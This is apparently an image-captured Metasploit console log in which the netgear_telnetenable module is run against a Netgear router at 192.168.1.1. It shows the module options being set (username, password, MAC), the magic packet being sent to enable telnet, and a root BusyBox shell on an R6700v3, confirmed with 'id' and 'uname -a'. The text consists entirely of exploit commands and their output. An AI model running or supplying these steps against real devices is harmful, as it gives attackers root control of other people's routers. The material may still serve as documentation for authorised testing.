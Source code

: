 ```
       --  ----
       0   Automatic (detect TCP or UDP)
    
    
    msf5 exploit(linux/telnet/netgear_telnetenable) > set RHOST 192.168.1.1
    RHOST => 192.168.1.1
    set msf5 exploit(linux/telnet/netgear_telnetenable) > set username admin
    username => admin
    msf5 exploit(linux/telnet/netgear_telnetenable) > set password testing123
    password => testing123
    msf5 exploit(linux/telnet/netgear_telnetenable) > set MAC D56C89FC94C9
    MAC => D56C89FC94C9
    msf5 exploit(linux/telnet/netgear_telnetenable) > exploit
    
    [+] 192.168.1.1:23 - Detected telnetenabled on UDP
    [+] 192.168.1.1:23 - Using creds admin:testing123
    [*] 192.168.1.1:23 - Generating magic packet
    [*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
    [*] 192.168.1.1:23 - Sending magic packet
    [*] 192.168.1.1:23 - Disconnecting from telnetenabled
    [*] 192.168.1.1:23 - Waiting for telnetd
    [*] 192.168.1.1:23 - Connecting to telnetd
    [*] Found shell.
    [*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.1:23) at 2020-06-30 15:14:08 -0500
    
    
    
    Login incorrect
     login: admin
    admin
    Password: testing123
    
    
    
    BusyBox v1.7.2 (2019-07-29 20:56:07 CST) built-in shell (ash)
    Enter 'help' for a list of built-in commands.
    
    # id
    id
    uid=0(admin) gid=0(root)
    # uname -a
    uname -a
    Linux R6700v3 2.6.36.4brcmarm+ #17 SMP PREEMPT Mon Jul 29 19:43:55 CST 2019 armv7l unknown
    #
```
